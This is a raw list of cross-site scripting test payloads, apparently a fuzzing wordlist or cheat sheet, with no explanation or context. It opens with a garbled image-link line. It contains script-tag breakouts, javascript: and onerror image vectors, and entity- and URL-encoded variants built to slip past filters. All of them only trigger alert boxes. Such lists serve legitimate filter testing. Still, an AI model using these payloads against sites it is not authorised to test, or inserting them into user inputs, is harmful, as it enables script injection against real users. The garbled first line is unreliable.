 "'><script>alert(1)</script>
“”;</script><script>alert(/XSS/)</script><“
"';</script><script>alert(/XSS/)</script><"
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
'';!--"<XSS>=&{()}
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
%22%27%3E%3C%68%31%3E%78%73%73%3C%2F%68%31%3E
&#x22;&#x27;&#x3E;&#x3C;&#x68;&#x31;&#x3E;&#x78;&#x73;&#x73;&#x3C;&#x2F;&#x68;&#x31;&#x3E;
&#34&#39&#62&#60&#104&#49&#62&#120&#115&#115&#60&#47&#104&#49&#62